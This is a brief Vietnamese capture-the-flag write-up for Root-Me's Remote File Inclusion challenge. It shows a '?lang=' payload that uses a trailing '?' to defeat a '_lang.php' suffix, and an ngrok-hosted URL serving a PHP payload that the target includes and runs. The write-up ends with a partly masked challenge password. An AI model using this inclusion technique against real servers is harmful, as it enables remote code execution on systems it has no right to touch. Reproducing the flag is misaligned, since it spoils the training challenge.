






# [Remote File Inclusion](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)

Website có thiết lập parameter `?lang` để đọc source từ lang.php:



Fuzz vào URL thì ta biết được, server sẽ tự động concat thêm `_lang.php` vào cuối keyword ta gán vào `?lang`:



Challenge này thử thách về RFI, ta thử chèn một website bất kỳ vào `?lang`:


Như ban nãy, server tự concat thêm `_lang.php`, ta sử dụng `?` để bypass phần concat với payload: `http://challenge01.root-me.org/web-serveur/ch13/?lang=https://github.com/nh4ttruong?`


Bypass thành công, giờ thì ta sử dụng server để RFI qua challenge này. Set-up một file tên là **ntruong.txt** với content là payload PHP:


Sử dụng ngrok server để public IP Address:



URL để RFI: `https://f512-14-241-170-199.ap.ngrok.io/ntruong.txt`



Giờ thì gắn vào `?lang` ta được:



```yaml
Password: R3m0t3_iS_r3aL1y_********************
```



- Flag: "****************************"
